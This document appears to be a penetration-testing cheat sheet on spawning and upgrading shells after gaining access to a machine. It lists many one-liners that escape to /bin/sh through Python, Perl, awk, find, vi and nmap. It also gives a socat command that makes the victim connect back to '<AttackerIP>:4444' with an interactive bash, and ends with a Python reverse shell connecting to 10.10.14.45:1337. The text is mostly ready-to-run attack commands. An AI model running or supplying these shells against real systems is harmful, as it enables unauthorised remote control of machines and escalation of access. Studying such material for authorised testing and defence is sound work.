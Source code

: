 # Spawning Shells



### Non-interactive tty-shell <a id="non-interactive-tty-shell"></a>

If you have a non-tty-shell there are certain commands and stuff you can't do. This can happen if you upload reverse shells on a webserver, so that the shell you get is by the user www-data, or similar. These users are not meant to have shells as they don't interact with the system has humans do.

So if you don't have a tty-shell you can't run `su`, `sudo` for example. This can be annoying if you manage to get a root password but you can't use it.

Anyways, if you get one of these shells you can upgrade it to a tty-shell using the following methods:

**Using python**

```text
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

**Echo**

```text
echo 'os.system('/bin/bash')'
```

**sh**

```text
/bin/sh -i
```

**bash**

```text
/bin/bash -i
```

**Perl**

```text
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

**Ruby**

```text
ruby: exec "/bin/sh"
```

**Awk**

```text
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

```text
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**More, less, or man**

Type more, less, or man command with a file then try one of the following:

```text
'! /bin/sh'
'!/bin/sh'
'!bash'
```

**Lua**

```text
lua: os.execute('/bin/sh')
```

**From within IRB**

```text
exec "/bin/sh"
```

**From within VI**

```text
:!bash
```

or

```text
:set shell=/bin/bash:shell
```

or execute

```text
vi ;/bin/bash
```

once exit vi \(:q!\) we would get a shell. Helpful in scenarios where the user is asked to input which file to open

**From within nmap**

```text
!sh
```

### Interactive tty-shell <a id="interactive-tty-shell"></a>

#### **Method \#1** <a id="method-1"></a>

## Python pty module <a id="method1pythonptymodule"></a>

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### Method \#2 <a id="method-2"></a>

## Using socat <a id="method2usingsocat"></a>

So if you manage to upgrade to a non-interactive tty-shell you will still have a limited shell. You won't be able to use the up and down arrows, you won't have tab-completion. This might be really frustrating if you stay in that shell for long. It can also be more risky, if a execution gets stuck you cant use Ctr-C or Ctr-Z without killing your session. However that can be fixed using socat. Follow these instructions.

**On Kali \(listen\):**

```text
socat file:`tty`,raw,echo=0 tcp-listen:4444  
```

**On Victim \(launch\):**

```text
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<AttackerIP>:4444
```

[https://github.com/cornerpirate/socat-shell](https://github.com/cornerpirate/socat-shell)

#### Method \#3 <a id="method-3"></a>

**Using stty**

```text
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### Misc: Simple Reverse Shell <a id="misc-simple-reverse-shell"></a>

```text
echo "import socket" > script.py
echo "import subprocess" >> script.py
echo "import os" >> script.py
echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)" >> script.py
echo 's.connect(("10.10.14.45",1337))' >> script.py
echo "os.dup2(s.fileno(),0)" >> script.py
echo "os.dup2(s.fileno(),1)" >> script.py
echo "os.dup2(s.fileno(),2)" >> script.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> script.py
```

